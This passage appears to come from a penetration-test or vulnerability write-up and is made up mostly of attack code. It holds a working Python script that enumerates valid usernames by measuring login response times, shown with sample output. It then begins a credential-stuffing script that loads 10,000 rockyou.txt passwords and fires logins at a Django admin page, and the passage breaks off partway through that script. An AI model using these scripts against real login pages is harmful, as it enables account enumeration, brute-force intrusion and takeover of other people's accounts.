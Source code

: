 ```python

    avg_time = statistics.mean(times)
    stdev = statistics.stdev(times) if len(times) > 1 else 0

    return avg_time, stdev

# Test known usernames
print("[*] Testing username enumeration via timing attack...")

# Known invalid username (baseline)
invalid_time, _ = test_username("nonexistent_user_xyz_999")
print(f"[*] Baseline (invalid user): {invalid_time:.4f}s")

# Test potential usernames
candidates = [
    "admin", "administrator", "root", "user",
    "john_doe", "jane_smith", "api_service",
    "reopt", "nrel", "energy", "test"
]

valid_usernames = []
for username in candidates:
    avg_time, stdev = test_username(username)
    print(f"[*] Testing '{username}': {avg_time:.4f}s (σ={stdev:.4f})")

    # Valid usernames typically take 20-50ms longer
    # due to password hashing operation
    if avg_time > invalid_time + 0.02:  # 20ms threshold
        print(f"[+] LIKELY VALID: {username}")
        valid_usernames.append(username)

print(f"\n[+] Enumerated usernames: {valid_usernames}")
```

**Expected Output:**

```
[*] Baseline (invalid user): 0.0523s
[*] Testing 'admin': 0.0847s (σ=0.0023)
[+] LIKELY VALID: admin
[*] Testing 'administrator': 0.0531s (σ=0.0019)
[*] Testing 'john_doe': 0.0832s (σ=0.0018)
[+] LIKELY VALID: john_doe
```

**Step 2: Credential Stuffing Attack**

```python
# credential_stuffing.py
import requests
from concurrent.futures import ThreadPoolExecutor

target = "http://localhost:8000/admin/login/"
enumerated_users = ["admin", "john_doe", "jane_smith"]

# Load common passwords
with open("/usr/share/wordlists/rockyou.txt", "r", encoding="latin-1") as f:
    passwords = [line.strip() for line in f.readlines()[:10000]]  # Top 10k

def try_login(username, password):
    """
    Attempt to login with credentials
    """
    session = requests.Session()
    r = session.get(target)
```